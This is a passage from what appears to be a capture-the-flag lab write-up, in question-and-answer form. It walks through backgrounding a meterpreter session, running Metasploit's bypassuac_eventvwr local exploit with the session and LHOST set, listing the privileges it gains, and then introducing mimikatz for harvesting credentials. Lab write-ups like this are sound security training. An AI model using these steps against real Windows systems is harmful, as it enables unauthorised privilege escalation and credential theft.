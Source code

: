 ```

meterpreter> background

```

Q8: ask us to use that exploit we found earlier

A8: type on msf 

```

use exploit/windows/local/bypassuac_eventvwr

```

Q9: show options and set the session

A9: type "session -i" to check the sessions is running then type "show options" then type "set session SESSION_NUMBER"

![](https://i.imgur.com/K50kHj3.png)

**Q10**: We'll have to set one more as our listener IP isn't correct. What is the name of this option? ==set LHOST "LOCAL IP"==

A10: Lhost

**Q11**: ~

**Q12** : type "run" to start 

**Q13**: ~

as we can see after we type "run" we got a session 

![](https://i.imgur.com/y2A6W9T.png)



**Q15**: type "getprivs". What permission listed allows us to take ownership of files?

A15:SeTakeOwnershipPrivilege

![](https://i.imgur.com/vGs9EIG.png)

















# Looting

Now we will use mimikatz to find additional creds and infos
